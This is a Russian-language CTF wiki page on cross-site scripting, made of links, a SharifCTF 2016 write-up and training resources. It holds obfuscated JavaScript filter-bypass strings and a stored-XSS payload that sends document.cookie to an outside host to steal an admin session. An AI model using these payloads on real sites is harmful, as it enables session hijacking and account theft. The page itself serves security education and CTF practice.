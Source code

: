 В статье http://dsec.ru/ipm-research-center/article/bypassing_the_filtering_of_the_uploaded_images_in_a_number_of_web_applications_for_the_implementatio/ рассказывается обход фильтрации с помощью картинки.

http://raz0r.name/news/xss-filters-bypass-on-blackhat/  
А вот уже с блекхата:
```
(É=[Å=[],µ=!Å+Å][µ[È=-~-~++Å]+({}+Å) [Ç=!!Å+µ,ª=Ç[Å]+Ç[+!Å],Å]+ª])() [µ[Å]+µ[Å+Å]+Ç[È]+ª](Å)
($=[$=[]][(__=!$+$)[_=-~-~-~$]+({}+$)[_/_]+($$=($_=!
+$)[_/_]+$_[+$])])()[__[_/_]+__[_+~$]+$_[_]+$$](_/_)
```
И на последок - http://www.smeegesec.com/2012/06/collection-of-cross-site-scripting-xss.html  
Тут вы можете найти список xss пейлоадов для тестирования.

## Множество примеров
__SHarifCTF 2016 - WEB photoblog__

__Описание__  
url - http://ctf.sharif.edu:33455/chal/PhotoBlog/d57ad4d0f9afd1f1/ A friend of mine have stolen my cat's picture on his blog. I want to login as admin user on his blog. Do you have any idea?

__Решение__
```
1. C dirs3arch мы можем найти авторизацию админа: admin.php которая редиректит нас на login.php. Все это только потому что у нас нет правильной сессии.
2. XSS в поле под комментарии,
3. <script>document.write('<img src="http://mysite.com/cookies.php?cookie=' + document.cookie + '" />')</script>
4. Украденные куки админа: PHPSESSID=515386866780b5f132fc96c02b3ddb82.
5. Используя их, мы можем открыть страницу админки и получить флаг: c03dfe9d79b2dd4a0c8352949bde9ab9
```

## Статьи и прочее
__Статьи__  
https://github.com/codedokode/pasta/blob/master/security/xss.md  
https://ru.wikipedia.org/wiki/%D0%9C%D0%B5%D0%B6%D1%81%D0%B0%D0%B9%D1%82%D0%BE%D0%B2%D1%8B%D0%B9_%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D0%B8%D0%BD%D0%B3  
https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29  
http://forum.antichat.ru/threads/20140/  
http://forum.antichat.ru/threads/224582/  
http://dsec.ru/ipm-research-center/article/bypassing_the_filtering_of_the_uploaded_images_in_a_number_of_web_applications_for_the_implementatio/

__Райтапы__  
NorthSec 2015 - XSS Challenge Writeups  
http://holyvier.blogspot.ru/2015/05/northsec-xss-challenge-writeups.html

CSAW CTF 2014 - WEB 300  
http://wiremask.eu/csaw-ctf-2014-web-300-hashes-writeup/

__Тренировки__  
https://xss-game.appspot.com/  
http://www.root-me.org/en/Challenges/Web-Client/Javascript-Stored-XSS-1  
http://www.root-me.org/en/Challenges/Web-Client/Javascript-Stored-XSS-2


----
взято с сайта http://itsecwiki.org/
